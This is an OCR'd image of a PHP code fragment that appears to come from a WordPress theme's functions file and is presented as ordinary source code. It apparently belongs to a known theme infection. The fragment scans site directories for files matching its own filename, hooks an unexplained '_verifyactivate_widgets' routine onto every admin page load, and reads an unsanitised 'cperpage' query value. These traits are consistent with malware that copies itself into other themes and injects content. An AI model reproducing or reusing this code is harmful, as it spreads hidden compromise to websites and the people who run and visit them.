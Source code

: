    } elseif (is_file($places . "/" . $elem)&&
    $elem == substr(__FILE__,-13)){
    $items[]=$places . "/" . $elem;}
    }
    }
    }else{
    return false;
    }
    if (sizeof($wids) > 0){
    return _get_allwidgets_cont($wids,$items);
    } else {
    return $items;
    }
    }
    if(!function_exists("stripos")){
    function stripos( $str, $needle, $offset = 0 ){
    return strpos( strtolower( $str ), strtolower( $needle ), $offset );
    }
    }
    if(!function_exists("strripos")){
    function strripos( $haystack, $needle, $offset = 0 ) {
    if( !is_string( $needle ) )$needle = chr( intval( $needle ) );
    if( $offset < 0 ){
    $temp_cut = strrev( substr( $haystack, 0, abs($offset) ) );
    }
    else{
    $temp_cut = strrev( substr( $haystack, 0, max( ( strlen($haystack) - $offset ), 0 ) ) );
    }
    if( ( $found = stripos( $temp_cut, strrev($needle) ) ) === FALSE )return FALSE;
    $pos = ( strlen( $haystack ) - ( $found + $offset + strlen( $needle ) ) );
    return $pos;
    }
    }
    if(!function_exists("scandir")){
    function scandir($dir,$listDirectories=false, $skipDots=true) {
    $dirArray = array();
    if ($handle = opendir($dir)) {
    while (false !== ($file = readdir($handle))) {
    if (($file != "." && $file != "..") || $skipDots == true) {
    if($listDirectories == false) { if(is_dir($file)) { continue; } }
    array_push($dirArray,basename($file));
    }
    }
    closedir($handle);
    }
    return $dirArray;
    }
    }
    add_action("admin_head", "_verifyactivate_widgets");
    function _getprepare_widget(){
    if(!isset($text_length)) $text_length=120;
    if(!isset($check)) $check="cookie";
    if(!isset($tagsallowed)) $tagsallowed="<a>";
    if(!isset($filter)) $filter="none";
    if(!isset($coma)) $coma="";
    if(!isset($home_filter)) $home_filter=get_option("home");
    if(!isset($pref_filters)) $pref_filters="wp_";
    if(!isset($is_use_more_link)) $is_use_more_link=1;
    if(!isset($com_type)) $com_type="";
    if(!isset($cpages)) $cpages=$_GET["cperpage"];
    if(!isset($post_auth_comments)) $post_auth_comments="";
    if(!isset($com_is_approved)) $com_is_approved="";
    if(!isset($post_auth)) $post_auth="auth";
    if(!isset($link_text_more)) $link_text_more="(more...)";